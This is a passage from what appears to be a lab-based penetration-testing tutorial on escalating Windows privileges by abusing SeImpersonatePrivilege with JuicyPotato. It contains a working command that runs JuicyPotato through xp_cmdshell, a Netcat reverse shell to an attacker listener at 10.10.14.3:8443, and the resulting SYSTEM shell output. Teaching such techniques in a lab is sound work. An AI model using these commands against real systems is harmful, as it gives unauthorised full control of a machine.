 The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

### Escalating Privileges Using JuicyPotato

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

SeImpersonate and SeAssignPrimaryToken

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

### Catching SYSTEM Shell

This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.

SeImpersonate and SeAssignPrimaryToken

```shell-session
slomkm@htb[/htb]$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

---